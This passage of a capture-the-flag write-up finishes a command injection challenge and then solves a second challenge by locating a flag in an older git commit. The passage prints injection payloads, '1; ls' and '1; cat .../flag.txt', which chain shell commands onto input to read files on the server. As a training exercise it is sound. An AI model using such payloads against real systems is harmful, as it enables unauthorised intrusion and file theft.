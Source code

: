 It says in the description that the flag is located in `/home/cmnatic`. I just don't know what the name of the file is, so I ran 
```bash
1; ls /home/cmnatic
```
And the server told me that the file is called `flag.txt`. Should`ve known...
All that is left now is to read the flag with:
```bash
1; cat /home/cmnatic/flag.txt
```

Tada! We got the flag: `HTM{COMMAND_INJECTION}`

# Challenge \#3: Commitment Issues (15pt)
Description: 
```
Joe Bloggs -
developer extroadinare, has some commitment issues and seems to share too much.
Can you help him prevent this in the future?
```

Attached we have a zip file, with a git project inside.
I tried running `grep` over the file and looking for `HTM{` but I couldn`t find anything.

```bash
tymscar@machine:/home/Tymscar/BikeIT$ grep -rni "HTM{" *
tymscar@machine:/home/Tymscar/BikeIT$
```

It was pretty clear based on the fact that this was a git project and the challenge title that the flag had something to do with the commits inside of it, so I ran ```git log``` and I could see that there was actually another commit which could hide the flag.

```bash
tymscar@machine:/home/Tymscar/BikeIT$ git log
commit eed89b082d6ae5694caa55a4bfe232f866311634 (HEAD -> main, origin/main)
Author: Ben (CMNatic) <ben@cmnatic.co.uk>
Date:   Wed Oct 27 12:12:20 2021 +0100

    Update databaseconfig.php

commit b574d38d27ce5646bf69c28e02ac6f8656c19d2d
Author: Ben (CMNatic) <ben@cmnatic.co.uk>
Date:   Wed Oct 27 10:02:38 2021 +0100

    Initial Commit

commit b9620c9fbfb1ee3714a79fc2d116bff03918a181
Author: Ben (CMNatic) <ben@cmnatic.co.uk>
Date:   Wed Oct 27 09:58:52 2021 +0100

    Initial commit
```

I switched to it, tried grepping for the flag again and, success: `HTM{COMMITTED_CREDENTIALS}`
